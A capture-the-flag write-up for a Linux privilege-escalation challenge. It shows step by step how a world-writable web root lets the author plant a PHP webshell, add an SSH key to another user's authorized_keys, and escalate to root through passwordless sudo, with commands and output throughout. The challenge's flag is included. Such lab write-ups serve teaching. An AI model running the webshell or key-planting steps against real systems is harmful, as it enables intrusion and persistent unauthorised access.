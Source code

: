 # $ undercover#2

### Category

System

### Description

This is your first real assignemnt. You have to assess the security of one of our developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are:
```
user:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

We can connect as `user`. It turns out, that the folder /var/www/html is world writable.
```
user@e3eb9614f8a6:~$ ls -ld /var/www/html
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

We also notice that the apache server is running as the `dev` user, instead of the `www-data` user.
```
user@e3eb9614f8a6:~$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  18388  3064 ?        Ss   10:47   0:00 /bin/bash /root/start.sh
root          12  0.0  0.0 327136 16904 ?        Ss   10:47   0:00 /usr/sbin/apache2 -k start
root          14  0.0  0.0  72312  5756 ?        S    10:47   0:00 /usr/sbin/sshd -D
dev           15  0.0  0.0 331780 12912 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           16  0.0  0.0 331772 12368 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           17  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           18  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           19  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
root          22  0.0  0.0 103864  7168 ?        Ss   10:47   0:00 sshd: user [priv]
user          33  0.0  0.0 103864  3680 ?        R    10:47   0:00 sshd: user@pts/0
user          34  0.0  0.0  20372  3848 pts/0    Ss   10:47   0:00 -bash
user          58  0.0  0.0  38460  3456 pts/0    R+   10:50   0:00 ps -aux
```

The easy thing to do here, is to write a webshell into the `/var/www/html` folder. You can echo it, or use vim.
```php
<?php system($_GET["cmd"]) ?>
```

And here we go.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

Let's get a shell. To do so, we can simply copy our public ssh key to a world readable place, like the `/tmp` folder.
```
user@e3eb9614f8a6:~$ cp ~/.ssh/id_rsa.pub /tmp/authorized_keys
```

Using our webshell, we can just copy the key to `dev`'s `.ssh` folder.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=mkdir%20/home/dev/.ssh
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=cp%20/tmp/authorized_keys%20/home/dev/.ssh
user@e3eb9614f8a6:~$ ssh dev@localhost
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.13.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dev@e3eb9614f8a6:~$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

At this point, getting a shell as root is very easy.
We notice that the dev user can run any root command without any password (probably for more comfort).
```
dev@e3eb9614f8a6:~$ sudo -l
Matching Defaults entries for dev on e3eb9614f8a6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on e3eb9614f8a6:
    (ALL) NOPASSWD: ALL
dev@e3eb9614f8a6:~$ sudo /bin/bash
root@e3eb9614f8a6:~# id
uid=0(root) gid=0(root) groups=0(root) 
root@e3eb9614f8a6:~# cat /root/flag.txt 
Hero{3w-d4ta_1s_n0t_us3l3s5}
```


### Flag

```Hero{3w-d4ta_1s_n0t_us3l3s5}```